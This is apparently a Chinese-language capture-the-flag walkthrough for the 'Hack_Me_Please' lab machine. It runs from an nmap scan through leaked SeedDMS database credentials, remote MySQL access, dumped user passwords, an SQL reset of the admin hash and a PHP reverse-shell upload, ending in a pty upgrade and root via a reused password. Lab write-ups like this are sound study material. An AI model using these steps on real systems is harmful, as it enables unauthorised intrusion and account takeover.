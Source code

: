 # Hack_Me_Please

## 主机发现

目的主机: `192.168.247.135`

## 端口扫描

```
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
|     Path: http://192.168.247.135:80/
|     Form id: contact
|_    Form action: 
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| vulners: 
|   cpe:/a:apache:http_server:2.4.41: 
|       CVE-2022-31813  7.5     https://vulners.com/cve/CVE-2022-31813
|       CVE-2022-23943  7.5     https://vulners.com/cve/CVE-2022-23943
|       CVE-2022-22720  7.5     https://vulners.com/cve/CVE-2022-22720
|       CVE-2021-44790  7.5     https://vulners.com/cve/CVE-2021-44790
|       CVE-2021-39275  7.5     https://vulners.com/cve/CVE-2021-39275
|       CVE-2021-26691  7.5     https://vulners.com/cve/CVE-2021-26691
|       CVE-2020-11984  7.5     https://vulners.com/cve/CVE-2020-11984
|       CNVD-2022-73123 7.5     https://vulners.com/cnvd/CNVD-2022-73123
|       CNVD-2022-03225 7.5     https://vulners.com/cnvd/CNVD-2022-03225
|       CNVD-2021-102386        7.5     https://vulners.com/cnvd/CNVD-2021-102386
|       1337DAY-ID-34882        7.5     https://vulners.com/zdt/1337DAY-ID-34882        *EXPLOIT*
|       FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8    6.8     https://vulners.com/githubexploit/FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8      *EXPLOIT*
|       CVE-2021-40438  6.8     https://vulners.com/cve/CVE-2021-40438
|       CVE-2020-35452  6.8     https://vulners.com/cve/CVE-2020-35452
|       CNVD-2022-03224 6.8     https://vulners.com/cnvd/CNVD-2022-03224
|       8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2    6.8     https://vulners.com/githubexploit/8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2      *EXPLOIT*
|       4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332    6.8     https://vulners.com/githubexploit/4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332      *EXPLOIT*
|       4373C92A-2755-5538-9C91-0469C995AA9B    6.8     https://vulners.com/githubexploit/4373C92A-2755-5538-9C91-0469C995AA9B      *EXPLOIT*
|       0095E929-7573-5E4A-A7FA-F6598A35E8DE    6.8     https://vulners.com/githubexploit/0095E929-7573-5E4A-A7FA-F6598A35E8DE      *EXPLOIT*
|       CVE-2022-28615  6.4     https://vulners.com/cve/CVE-2022-28615
|       CVE-2021-44224  6.4     https://vulners.com/cve/CVE-2021-44224
|       CVE-2022-22721  5.8     https://vulners.com/cve/CVE-2022-22721
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2022-30556  5.0     https://vulners.com/cve/CVE-2022-30556
|       CVE-2022-29404  5.0     https://vulners.com/cve/CVE-2022-29404
|       CVE-2022-28614  5.0     https://vulners.com/cve/CVE-2022-28614
|       CVE-2022-26377  5.0     https://vulners.com/cve/CVE-2022-26377
|       CVE-2022-22719  5.0     https://vulners.com/cve/CVE-2022-22719
|       CVE-2021-36160  5.0     https://vulners.com/cve/CVE-2021-36160
|       CVE-2021-34798  5.0     https://vulners.com/cve/CVE-2021-34798
|       CVE-2021-33193  5.0     https://vulners.com/cve/CVE-2021-33193
|       CVE-2021-30641  5.0     https://vulners.com/cve/CVE-2021-30641
|       CVE-2021-26690  5.0     https://vulners.com/cve/CVE-2021-26690
|       CVE-2020-9490   5.0     https://vulners.com/cve/CVE-2020-9490
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2020-13950  5.0     https://vulners.com/cve/CVE-2020-13950
|       CVE-2019-17567  5.0     https://vulners.com/cve/CVE-2019-17567
|       CNVD-2022-73122 5.0     https://vulners.com/cnvd/CNVD-2022-73122
|       CNVD-2022-53584 5.0     https://vulners.com/cnvd/CNVD-2022-53584
|       CNVD-2022-53582 5.0     https://vulners.com/cnvd/CNVD-2022-53582
|       CNVD-2022-03223 5.0     https://vulners.com/cnvd/CNVD-2022-03223
|       CVE-2020-11993  4.3     https://vulners.com/cve/CVE-2020-11993
|       1337DAY-ID-35422        4.3     https://vulners.com/zdt/1337DAY-ID-35422        *EXPLOIT*
|       CVE-2022-37436  0.0     https://vulners.com/cve/CVE-2022-37436
|       CVE-2022-36760  0.0     https://vulners.com/cve/CVE-2022-36760
|_      CVE-2006-20001  0.0     https://vulners.com/cve/CVE-2006-20001
3306/tcp  open  mysql   MySQL 8.0.25-0ubuntu0.20.04.1
| vulners: 
|   MySQL 8.0.25-0ubuntu0.20.04.1: 
|_      NODEJS:602      0.0     https://vulners.com/nodejs/NODEJS:602
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
MAC Address: 00:0C:29:39:80:3F (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop

```

## web信息收集

在main.js中发现目录信息：

```
 // give active class to first link
//make sure this js file is same as installed app on our server endpoint: /seeddms51x/seeddms-5.1.22/
```

![image-20230313000040191](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230313000040191.png)

发现目标的文档管理系统，查看开源的框架

![image-20230313000229080](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230313000229080.png)

登录页面没有密码:

## 配置文件泄露

查看配置文件得到信息如下：

![image-20230313000429992](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230313000429992.png)

```
dbDatabase="seeddms" dbUser="seeddms" dbPass="seeddms"
```

mysql远程连接：

```
mysql -h 192.168.247.135 -D seeddms -u seeddms -p seeddms
```

得到

```
elect * from users;
+-------------+---------------------+--------------------+-----------------+
| Employee_id | Employee_first_name | Employee_last_name | Employee_passwd |
+-------------+---------------------+--------------------+-----------------+
|           1 | saket               | saurav             | Saket@#$1337    |
+-------------+---------------------+--------------------+-----------------+

select * from tblUsers;
+----+-------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
| id | login | pwd                              | fullName      | email              | language | theme | comment | role | hidden | pwdExpiration       | loginfailures | disabled | quota | homefolder |
+----+-------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
|  1 | admin | f9ef2c539bad8a6d2f3432b6d49ab51a | Administrator | address@server.com | en_GB    |       |         |    1 |      0 | 2021-07-13 00:12:25 |             0 |        0 |     0 |       NULL |
|  2 | guest | NULL                             | Guest User    | NULL               |          |       |         |    2 |      0 | NULL                |             0 |        0 |     0 |       NULL |
+----+-------+----------------------------------+---------------+--------------------+----------+-------+---------+
```

发现

admin的加密的MD5,尝试破解||更改密码

```
update tblUsers set pwd ="21232f297a57a5a743894a0e4a801fc3" where login="admin" 更改密码为“admin”

echo -n * |md5sum
```

![image-20230313003415702](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230313003415702.png)

成功登录

## getshell

在文件上传处上传反弹shell文件，/usr/share/webshell/php/*

![image-20230313111732864](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230313111732864.png)

上传1.php

反弹shell，提升交互性

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20230313112224748](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230313112224748.png)

## 提权

切换到mysql中的账户

```
saket               | saurav             | Saket@#$1337 
```

![image-20230313113914496](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230313113914496.png)

```
sudo -i
```

![image-20230313114003105](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230313114003105.png)

# successful！